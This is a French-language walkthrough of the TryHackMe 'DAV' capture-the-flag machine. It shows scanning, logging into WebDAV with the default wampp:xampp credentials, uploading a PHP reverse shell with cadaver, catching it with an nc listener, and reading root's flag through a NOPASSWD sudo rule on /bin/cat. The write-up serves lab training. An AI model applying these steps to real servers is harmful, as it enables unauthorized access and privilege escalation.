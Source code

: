 ```yaml
---
title: DAV (Guatemala CTF)
tags: [TryHackMe, Facile, Webdav]
style: border
color: thm
comments: false
description: Voilà ce que peut arriver si on conserve les identifiants par défaut
modified: 06/09/2024
---
```

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtdav>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Analyse du site](#2-analyse-du-site)
* [3. Exploitation de Webdav](#3-exploitation-de-webdav)
* [4. Exploration du serveur](#4-exploration-du-serveur)
* [5. Elevation de privilèges](#5-elevation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.157.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 15:26 CEST
Nmap scan report for 10.10.157.86
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique uniquement un serveur Apache présent sur le port 80.

## 2. Analyse du site

{% include elements/figure.html image="/images/THM/20240901/VirtualBox_Kali Hack_01_09_2024_15_29_16.png" caption="Première connexion" %}

A première vue, il ne s'agit que de la page par défaut que nous pouvons obtenir dès l'installation d'Apache.

Nous lançons un scanner {% include dictionary.html word="gobuster" %} et nous observons une page `webdav` qui nécessite une authentification (Status: 401).

```bash
gobuster dir -u http://10.10.157.86 -w /usr/share/wordlists/dirb/common.txt -x php,html -b "403,404"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

A la recherche d'identifiants par défaut sur Google, nous arrivons sur ce [blog](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) indiquant `wampp:xampp`. Le test est concluant, nous avons accès à l'outil avec ces identifiants.

{% include elements/figure.html image="/images/THM/20240901/Capture_ecran_2024-09-01_webdav.png" caption="Accès à Webdav" %}

## 3. Exploitation de Webdav

En parcourant le site [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver), nous avons connaissance de l'outil `cadaver` permettant de téléverser des fichiers sur Webdav. Nous tenterons d'ajouter le {% include dictionary.html word="reverse-shell" %} {% include dictionary.html word="PHP" %} mis à disposition sur le [Github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Nous avons pu téléverser notre {% include dictionary.html word="reverse-shell" %}.

```bash
cadaver http://10.10.157.86/webdav
Authentication required for webdav on server `10.10.157.86':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> put php-reverse-shell.php 
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
        php-reverse-shell.php               5492  Sep  1 16:05
```

Nous préparons un terminal en écoute sur le port indiqué dans le fichier {% include dictionary.html word="PHP" %}, puis nous cliquons sur le lien qui est apparu dans le répertoire Webdav.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.157.86] 45450
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:09:19 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La manipulation a fonctionné. Nous avons un accès à la machine.

## 4. Exploration du serveur

Nous commençons par améliorer le reverse shell obtenu afin de simplifier la navigation.

{%- gist ab3c791e25baa7b437d0324f6d3195af -%}

Nous constatons que le user `www-data` a accès aux répertoires des utilisateurs "merlin" et "wampp"

```bash
ls -hAl /home
total 8.0K
drwxr-xr-x 4 merlin merlin 4.0K Aug 25  2019 merlin
drwxr-xr-x 2 wampp  wampp  4.0K Aug 25  2019 wampp
```

Le répertoire de merlin contient le flag utilisateur, et celui-ci est lisible par tout le monde.

```bash
cd /home/merlin

ls -hAl
total 36K
-rw------- 1 merlin merlin 2.4K Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3.7K Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4.0K Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4.0K Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

cat user.txt
449b40[...expurgé...]d66d2a
```

## 5. Elevation de privilèges

Nous recherchons à présent le moyen d'obtenir les droits root sur la machine.

En vérifiant les droits {% include dictionary.html word="sudo" %} de l'utilisateur www-data, nous constatons qu'il est habilité à utiliser la commande `/bin/cat` sans mot de passe.

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Nous avons donc la possibilité de lire le contenu du flag root.

```bash
sudo /bin/cat /root/root.txt
101101[...expurgé...]f7afa5
```

